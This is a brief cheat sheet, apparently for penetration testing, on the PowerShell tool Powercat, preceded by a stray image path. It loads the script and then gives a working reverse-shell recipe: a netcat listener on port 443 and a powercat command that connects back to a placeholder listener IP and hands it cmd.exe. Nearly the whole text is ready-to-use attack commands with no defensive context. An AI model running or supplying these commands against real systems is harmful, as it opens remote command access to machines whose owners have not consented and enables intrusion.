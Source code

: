 # Powercat 

```powershell
# Load powercat and view help
C:\> ..\powercat.ps1
C:\> powercat -h
```

```powershell
# Powercat reverse shell
$ sudo nc -lvp 443

# Send a reverse shell via Powercat 
C:\> powercat -c <listener IP address> -p 443 -e cmd.exe
```
